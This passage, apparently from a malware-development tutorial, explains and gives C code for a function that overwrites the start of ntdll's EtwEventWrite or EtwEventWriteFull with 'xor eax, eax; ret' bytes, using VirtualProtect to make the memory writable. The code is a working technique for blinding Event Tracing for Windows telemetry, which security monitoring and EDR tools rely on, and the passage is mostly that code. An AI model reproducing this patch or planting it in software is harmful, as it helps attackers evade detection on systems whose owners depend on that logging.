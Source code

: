 ```c
typedef enum PATCH
{
	PATCH_ETW_EVENTWRITE,
	PATCH_ETW_EVENTWRITE_FULL
};
```

### PatchEtwWriteFunctionsStart Function

The `PatchEtwWriteFunctionsStart` function uses the `GetProcAddress` WinAPI to retrieve the address of the target ETW function. Next, it calls the `VirtualProtect` WinAPI to allow writing the shellcode to the fetched address, writes the patch, and finally resets the memory permission to its original state.

The `PatchEtwWriteFunctionsStart` function requires the `PATCH` enumeration to be passed in and will then patch the right function according to the enumeration value that was passed to the function.

The `PATCH` enumeration and `PatchEtwWriteFunctionsStart` currently do not support patching `EtwEventWriteEx`. This will be left as an exercise for the reader.

```c
BOOL PatchEtwWriteFunctionsStart(enum PATCH ePatch) {

	DWORD		dwOldProtection		= 0x00;
	PBYTE		pEtwFuncAddress		= NULL;
	BYTE		pShellcode[3]		= {
                          0x33, 0xC0,    // xor eax, eax
                          0xC3           // ret
	};

	// Get the address of "EtwEventWrite" OR "EtwEventWriteFull" based of 'ePatch'
	pEtwFuncAddress = GetProcAddress(GetModuleHandleA("NTDLL"), ePatch == PATCH_ETW_EVENTWRITE ? "EtwEventWrite" : "EtwEventWriteFull");
	if (!pEtwFuncAddress) {
		printf("[!] GetProcAddress failed with error  %d \n", GetLastError());
		return FALSE;
	}

	// Change memory permissions to RWX
	if (!VirtualProtect(pEtwFuncAddress, sizeof(pShellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] failed with error  %d \n", GetLastError());
		return FALSE;
	}

	// Apply the patch
	memcpy(pEtwFuncAddress, pShellcode, sizeof(pShellcode));

	// Change memory permissions to original
	if (!VirtualProtect(pEtwFuncAddress, sizeof(pShellcode), dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] failed with error  %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```
